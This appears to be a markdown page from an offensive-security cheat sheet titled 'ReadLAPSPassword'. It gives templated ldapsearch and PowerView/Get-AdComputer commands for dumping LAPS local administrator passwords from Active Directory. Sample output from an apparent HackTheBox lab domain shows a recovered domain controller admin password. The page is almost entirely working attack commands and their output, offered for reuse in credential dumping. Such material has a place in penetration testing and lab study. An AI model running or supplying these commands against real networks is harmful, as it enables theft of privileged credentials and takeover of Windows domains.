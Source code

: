 ```yaml
---
title: "ReadLAPSPassword"
date: 2024-7-30
tags: ["Credential Dumping", "Powerview", "ReadLAPSpassword", "Active Directory", "Windows", "LAPS"]
---
```


### Abuse #1: Read LAPS Password

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
ldapsearch -H ldap://<TARGET> -b 'DC=<EXAMPLE>,DC=<COM>' -x -D <USER>@<DOMAIN> -w '<PASSWORD>' '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```

```console {class="sample-code"}
$ ldapsearch -H ldap://10.10.10.240 -b 'DC=LicorDeBellota,DC=HTB' -x -D bob@LicorDeBellota.htb -w 'Test1234!@' '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
# extended LDIF
#
# LDAPv3
# base <DC=LicorDeBellota,DC=HTB> with scope subtree
# filter: (ms-MCS-AdmPwd=*)
# requesting: ms-MCS-AdmPwd 
#

# PIVOTAPI, Domain Controllers, LicorDeBellota.htb
dn: CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
ms-Mcs-AdmPwd: 2Vf5kP4Xvj5r605V616x

# search reference
ref: ldap://ForestDnsZones.LicorDeBellota.htb/DC=ForestDnsZones,DC=LicorDeBell
 ota,DC=htb

# search reference
ref: ldap://DomainDnsZones.LicorDeBellota.htb/DC=DomainDnsZones,DC=LicorDeBell
 ota,DC=htb

# search reference
ref: ldap://LicorDeBellota.htb/CN=Configuration,DC=LicorDeBellota,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\bob\Documents> . .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Read LAPS password

```console
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\bob\Documents> Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd 


DistinguishedName : CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
DNSHostName       : PivotAPI.LicorDeBellota.htb
Enabled           : True
ms-Mcs-AdmPwd     : 2Vf5kP4Xvj5r605V616x
Name              : PIVOTAPI
ObjectClass       : computer
ObjectGUID        : 98783674-e6a3-4d9e-87e3-efe5f31fabbf
SamAccountName    : PIVOTAPI$
SID               : S-1-5-21-842165252-2479896602-2762773115-1004
UserPrincipalName :

```

{{< /tabcontent >}}
